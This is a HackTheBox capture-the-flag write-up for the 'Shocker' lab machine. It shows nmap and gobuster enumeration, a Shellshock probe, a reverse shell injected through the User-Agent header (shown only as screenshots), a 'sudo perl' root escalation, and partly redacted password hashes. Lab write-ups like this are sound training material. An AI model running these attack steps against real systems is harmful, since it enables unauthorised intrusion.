 ```yaml
---
lang: "en"
classoption: oneside
code-block-font-size: \scriptsize
geometry: "a4paper"
geometry: "margin=2cm"
header-includes:
  - \usepackage{float}
  - \floatplacement{figure}{H}
  - \usepackage{xcolor}
  - \hypersetup{breaklinks=true,
                bookmarks=true,
                pdftitle="Shocker",
                pdfauthor="svachal (@7h3rAm)",
                pdfsubject='Writeup for HackTheBox VM Shocker',
                pdfkeywords="oscp htb linux",
                colorlinks=true,
                linkcolor=cyan,
                urlcolor=blue}
  - \usepackage{fvextra}
  - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,breakanywhere=true,commandchars=\\\{\}}
  - \usepackage{mathtools}
---
```


# [[HackTheBox] Shocker](https://www.hackthebox.eu/home/machines/profile/108)

**Date**: 13/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [exploit_shellshock](https://github.com/7h3rAm/writeups/search?q=exploit_shellshock&unscoped_q=exploit_shellshock), [privesc_sudoers](https://github.com/7h3rAm/writeups/search?q=privesc_sudoers&unscoped_q=privesc_sudoers)  

## Overview
This is a writeup for HackTheBox VM [Shocker](https://www.hackthebox.eu/home/machines/profile/108). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](Box%20Write-ups/htb.shocker/machinescli.png)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](Box%20Write-ups/htb.shocker/killchain.png)


### TTPs
1\. `80/tcp/http/Apache httpd 2.4.18 ((Ubuntu))`: [exploit_shellshock](https://github.com/7h3rAm/writeups#exploit_shellshock), [privesc_sudoers](https://github.com/7h3rAm/writeups#privesc_sudoers)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Wed Nov 13 16:00:23 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/xml/_quick_tcp_nmap.xml 10.10.10.56
Increasing send delay for 10.10.10.56 from 0 to 5 due to 145 out of 482 dropped probes since last increase.
Nmap scan report for 10.10.10.56
Host is up, received user-set (0.11s latency).
Scanned at 2019-11-13 16:00:24 PST for 25s
Not shown: 998 closed ports
Reason: 998 resets
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 16:00:49 2019 -- 1 IP address (1 host up) scanned in 26.24 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](Box%20Write-ups/htb.shocker/openports.png)  

3\. We try Shellshock related enumeration steps to identify interesting scripts to be used as entrypoint:  
``` {.python .numberLines}
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403 -k -x sh,pl
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56

```

![writeup.enumeration.steps.3.1](Box%20Write-ups/htb.shocker/screenshot01.png)  

![writeup.enumeration.steps.3.2](Box%20Write-ups/htb.shocker/screenshot02.png)  

4\. The `user.sh` script looks interesting and we manually confirm that it is vulnerable to Shellshock:  

![writeup.enumeration.steps.4.1](Box%20Write-ups/htb.shocker/screenshot03.png)  

![writeup.enumeration.steps.4.2](Box%20Write-ups/htb.shocker/screenshot04.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp    |  http  |  Apache httpd 2.4.18 ((Ubuntu))
2222/tcp  |  ssh   |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
#### Files
``` {.python .numberLines}
http://10.10.10.56/cgi-bin/user.sh
```

\newpage
## Phase #2: Exploitation
1\. We inject a Bash reverse shell command within the HTTP User-Agent header and get interactive access on the target system:  

![writeup.exploitation.steps.1.1](Box%20Write-ups/htb.shocker/screenshot05.png)  

![writeup.exploitation.steps.1.2](Box%20Write-ups/htb.shocker/screenshot06.png)  

2\. We can now view the contents of the first flag file, `user.txt`:  

![writeup.exploitation.steps.2.1](Box%20Write-ups/htb.shocker/screenshot07.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
shelly@Shocker> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker>  
shelly@Shocker> uname
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
shelly@Shocker>  
shelly@Shocker> ifconfig
ens33 Link encap:Ethernet  HWaddr 00:50:56:b9:fe:2c
      inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
      inet6 addr: fe80::250:56ff:feb9:fe2c/64 Scope:Link
      inet6 addr: dead:beef::250:56ff:feb9:fe2c/64 Scope:Global
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:769099 errors:0 dropped:0 overruns:0 frame:0
      TX packets:542509 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:65025189 (65.0 MB)  TX bytes:92873202 (92.8 MB)
shelly@Shocker>  
shelly@Shocker> users
root
shelly
```

\newpage
## Phase #3: Privilege Escalation
1\. From the output of the `sudo -l`, we know that the user `shelly` can execute `perl` with `sudo` privileges. We use this to execute Bash and get elevated privileges:  
``` {.python .numberLines}
sudo -l
sudo perl -e 'exec "/bin/sh";'

```

![writeup.privesc.steps.1.1](Box%20Write-ups/htb.shocker/screenshot08.png)  

![writeup.privesc.steps.1.2](Box%20Write-ups/htb.shocker/screenshot09.png)  

2\. We then view the contents of the `root.txt` file to complete the challenge:  

![writeup.privesc.steps.2.1](Box%20Write-ups/htb.shocker/screenshot10.png)  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$BVgS5ne0$Q6rV3guK7QQUy7uRMwbQ3vv2Y5I9yQUhIzvrIhuiDso/o5UfDxZw7MMq8atR3UdJjhpkFVxVD0cVtjXQd........................
shelly:$6$aYLAoDIC$CJ8f8WSCT6GYmbx7x8z5RfrbTG5mpDkkJkLW097hoiEw3tqei2cE7EcUTYdJTVMSa3PALZeBHjhiFR8Ba........................
```
### Flags
``` {.python .numberLines}
/home/shelly/user.txt: 2ec24e11320026d1e70ff...........
/root/root.txt: 52c2715605d70c76190305..........
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/108>  
[+] <https://www.youtube.com/watch?v=IBlTdguhgfY>  
[+] <https://xd3m0n.xyz/htb_shocker/>  
